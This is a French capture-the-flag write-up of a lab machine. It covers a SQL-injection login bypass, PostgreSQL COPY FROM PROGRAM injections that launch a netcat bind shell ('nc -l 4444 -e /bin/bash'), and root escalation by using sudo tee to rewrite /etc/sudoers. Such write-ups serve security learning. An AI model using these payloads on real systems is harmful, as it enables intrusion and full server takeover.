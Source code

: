 # Write-up CTF Facile 3

## Etape 1 : Analyse de la cible

Lancer une analyse réseau nmap sur la cible afin de voir lesquels de ses ports sont ouverts (et donc potentiellement vulnérables).
![img](1.PNG)

On constate qu'un service http est actif. On insère donc l'IP dans l'url d'un navigateur web :
![img](2.PNG)

On remarque un onglet de login sur la page. Le type de faille le plus commun sur ce type de formulaire étant la SQL Injection, on effectue une injection pour se connecter en tant qu'admin pour vérifier si le site y est sensible ou non :
![img](3.PNG)
![img](4.PNG)
Nous sommes actuellement connectés en tant que l'utilisateur admin du site.
Pour ce faire, dans l'input de username, on a inséré `admin';--`, qui va retourner un fois inséré à son tour dans la requête effectuée au serveur de bases de données en back-end, une requête du type :
```sql
SELECT * FROM table_users WHERE username='admin';-- AND password='[valeur aléatoire]';
``` 
Cela permet donc de ne vérfier que le nom d'utilisateur et de commenter la partie de la vérification du mot de passe.

## Etape 2 : Injection SQL

Maintenant que l'on sait que le site est sensible aux injections SQL, et que l'on a vu que le fait d'être connecté en tant qu'admin ne nous avançait pas vraiment, le but est de trouver le moyen d'atteindre la machine serveur directement depuis ce formulaire de login. Le fait est qu'il est possible d'exécuter des commandes système arbitrairement sur la machine serveur avec des requêtes SQL, les RCE (Remote Code Execution). Ainsi, en tapant les commandes suivantes, le mieux étant de les taper une à une pour éviter tout problème, on peut récupérer un bind shell sur la machine cible :
```SQL
'; DROP TABLE IF EXISTS cmd_exec;-- On supprime ici la table cmd_exec afin de nettoyer la base de données avant de faire notre exploit
'; CREATE TABLE cmd_exec(cmd_output text);-- On recrée la table, qui va contenir dans son unique colonne une commande
'; COPY cmd_exec FROM PROGRAM 'nc -l 4444 -e /bin/bash';-- On copie dans notre table la commande suivante, qui va ouvrir une connexion Netcat sur le port 4444, et qui va fournir à l'utilisateur qui se connecte un shell, c'est notre bind shell
'; SELECT * FROM cmd_exec;-- Cette requête va exécuter la commande copiée dans la table plus tôt
```

On voit bien que le port 4444 s'est ouvert sur la machine cible :
![img](5.PNG)

## Etape 3 : Bind Shell


Il suffit ensuite de se connecter au serveur via Netcat, sur le port 4444 :
![img](6.PNG)

Maintenant que nous avons obtenu notre bind shell, nous pouvons directement exécuter des commandes bash sur la machine cible. Après un `ls`, on constate l'existence d'un fichier nommé ***user.txt***. On effectue donc un `cat` dessus, et comme on a les droits de lecture dessus, cela fonctionne :
![img](7.PNG)

## Etape 4 : Elévation des privilèges

On a réussi à ce stade à récupérer le premier flag. Pour récupérer le deuxième, le but maintenant est d'obtenir une élévation des privilèges afin d'obtenir les droits root. On tape donc la commande `sudo -l` afin de voir si notre utillisateur **postgres** a le droit d'utiliser certaines commandes en `sudo` sans avoir à fournir de mot de passe, et on s'aperçoit qu'il a le droit d'utiliser la commande `/bin/tee` : 
![img](8.PNG)

`tee` est une commande qui permet de lire sur l'entrée standard (clavier) et d'écrire sur la sortie standard (écran) tout en écrivant dans des fichiers. Ce qui nous intéresse ici, c'est la possibilité de modifier des fichiers en étant `sudo`. On décide donc ici de modifier le fichier ***/etc/sudoers*** qui contient les règles des droits sur `sudo` aux utilisateurs du système. Ce fichier, naturellement, n'est modifiable qu'avec des droits administrateurs. En tapant la commande suivante, on permet à l'utilisateur avec lequel on est connecté d'utiliser toutes les commandes système avec les droits root :
![img](9.PNG)

Maintenant qu'on peut utiliser toutes les commandes sytèmes en tant que root, on peut voir le contenu du répertoire ***/root***. Après un `sudo ls /root`, on trouve un fichier ***root.txt*** qu'on affiche dans la console : 
![img](10.PNG)

Ainsi, on a récupéré les flags *user* et *root*, et à ce stade du CTF, nous pouvons effectuer toutes les commandes que l'on veut en tant que root. Ainsi, la machine est désormais totalement sous notre contrôle.

